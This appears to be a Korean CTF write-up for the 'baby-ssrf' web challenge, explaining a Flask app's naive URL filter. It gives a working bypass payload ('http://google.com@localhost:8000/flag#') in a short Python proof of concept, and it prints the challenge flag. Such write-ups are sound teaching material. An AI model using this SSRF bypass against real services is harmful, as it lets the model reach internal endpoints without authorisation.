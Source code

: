 # baby-ssrf

- 분야: Web
- 키워드: SSRF

## 배경

해당 문제는 웹앱 프레임워크 [Flask](https://palletsprojects.com/p/flask/)로 작성된 웹 페이지로, 사용자가 입력한 url로 python의 requests 모듈을 이용하여 post 요청을 보내고 응답을 받아 출력해주는 기능이 있습니다. 사용자 입력 url의 검증 로직을 우회하여 `/flag` 페이지로 요청을 보내는 것이 목표입니다. 해당 문제를 통해 ssrf 취약점을 학습할 수 있습니다.  

## 분석

### `/visit` 페이지

```python
@app.route('/visit', methods=['GET','POST'])
def visit():
    if request.method == "GET":
        return render_template("visit.html")
    elif request.method == "POST": # (1)
        url = request.form.get("url", "")
        if not url:
            return render_template("visit.html", res="URL is required")
        
        elif filter_flag(url): # (2)
            try:
                # Send a POST request to the specified URL
                response = requests.post(url)

                # Get the response content
                response_content = response.text

                return render_template("visit.html", res=response_content[0:200]) # (3)
            except requests.RequestException as e:
                return render_template("visit.html", error=f"Error during request: {str(e)}")
        else: # (4)
            return render_template("visit.html", res="filtered")
```

`/visit` 페이지가 동작하는 코드를 보면 다음과 같습니다. 먼저, `/visit` 페이지는 GET 과 POST 두가지 방식을 허용합니다.

1. POST 요청이 들어올 경우 form 을 통해 들어온 url 값을 받아와 url 변수에 값을 저장합니다. url 이 없을 경우 url이 필요하다는 메세지를 렌더링합니다.

2. `filter_flag()` 함수에 `url`을 인자로 넘겨 결과값에 따라 true일 경우 requests 모듈을 이용하여 url로 post 요청을 보냅니다.

3. post 요청을 보낸 후 받은 응답값을 200번째 문자열까지 렌더링합니다.

4. `filter_flag()` 함수의 결과가 false 라면, filtered 라는 문자열을 출력합니다.

### `/flag` 페이지

```python
@app.route('/flag',methods=['POST'])
def flag():
    # Check if the request is coming from localhost
    if request.remote_addr != '127.0.0.1':
        abort(404)  # Return a 404 error if not from localhost

    return render_template("flag.html")
```
`/flag` 페이지는 POST 메서드만을 허용합니다.
request.remote_addr를 이용해 요청 ip가 127.0.0.1인지 확인합니다. 127.0.0.1가 아닐 경우 404 error 페이지를 반환합니다. 127.0.0.1은 내부 서버의 ip 이므로 외부에서는 `/flag` 페이지에 접근할 수 없습니다.

### `filter_flag()`

```python
def filter_flag(url):
    urlp = urlparse(url)
    urlloc = urlp.netloc.lower()
    if (urlloc.startswith('localhost') or urlloc.startswith('127') or urlloc.startswith('0') or urlloc.startswith('213')):
        return False
    if(url.endswith('flag')):
        return False
    else:
        return True
```
`urlparse()`로 url을 파싱하여 netloc을 urlloc에 저장합니다. 
`startswitch()`을 이용하여 urlloc에 저장된 문자열이 `localhost`,`127`,`0`,`213`으로 시작하는지 검사합니다.
`endswith()`를 이용하여 `flag`로 끝나는지 검사합니다.
모든 검증을 통과하면 True를 반환합니다.

`/flag` 페이지는 로컬호스트 ip 만 접속이 가능하므로 `/visit` 페이지를 이용하여 localhost로 요청을 보내야합니다. 이때 `localhost`,`127`,`0`,`213`들은 모두 localhost로 요청하려는걸 막기위한 필터링입니다. 하지만 `startswith()` 함수를 이용하고 있으므로, netloc이 위의 문자열로 시작하지만 않으면 됩니다. 마찬가지로 `/flag` 페이지에 요청을 보내는 것을 막고자하는 필터링이 `endswith()` 를 사용하고 있기 때문에, 다른 문자로 끝나게 해준다면 필터링을 우회할 수 있습니다.

### `startswith()` 우회

> scheme:[//[user:password@]host[:port]][/]path[?query][#fragment]

url 은 다음과 같이 나뉘어집니다. 따라서 요청을 보낼 때 `@` 앞에있는 문자는 id:pass 로 인식하고 뒤의 문자를 host로 여기게 됩니다. 하지만 `urlparse.netloc`에서는 `://` 뒤의 문자들을 parsing 하기 때문에 `google.com@localhost:8000` 과 같이 작성하면 `localhost:8000`으로 요청을 보내게 되고, `startswith()` 우회가 가능합니다.


### `endswith()` 우회

`localhost:8000/flag` 뒤에 `#`, `?` 와 같은 url 예약문자를 붙여주면 `endswith(flag)`를 우회하면서 요청이 달라지지 않습니다.

## 풀이


### PoC

```python
import requests

URL = "https://ecs-baby-ssrf.chals.io/visit"
datas = {"url":"http://google.com@localhost:8000/flag#"}
res = requests.post(URL, data=datas)
print(res.text.split('<div>')[1].split('</div>')[0])
```
플래그: ewha{H0w_d1d_you_bypass_filt3rin9}

## 레퍼런스

